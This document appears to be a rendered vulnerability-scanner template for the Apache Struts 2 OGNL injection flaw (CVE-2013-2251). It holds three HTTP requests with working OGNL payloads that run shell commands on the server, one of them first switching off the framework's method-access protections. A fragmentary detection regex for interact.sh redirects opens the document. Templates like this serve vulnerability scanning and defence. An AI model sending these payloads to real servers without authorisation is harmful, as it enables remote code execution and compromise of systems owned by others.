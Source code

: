 - regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh._$
- part - header

---

# Apache Struts 2 - DefaultActionMapper Prefixes OGNL Code Execution

## Description

- In Struts 2 before 2.3.15.1 the information following "action:", "redirect:", or "redirectAction:" is not properly sanitized and will be evaluated as an OGNL expression against the value stack. This introduces the possibility to inject server side code.
- severity - critical
- tags - cve,cve2013,rce,struts,apache,ognl,kev

## Requests

### Step - 1

```
GET /index.action?{{params}}:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'sh','-c','id'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()} HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Step - 2

```
GET /login.action?{{params}}:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'sh','-c','id'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()} HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Step - 3

```
GET /index.action?{{params}}%3A%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23%5FmemberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23%5FmemberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22sh%20-c%20id%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D HTTP/1.1
Host: {{Hostname}}
Accept: */*

```
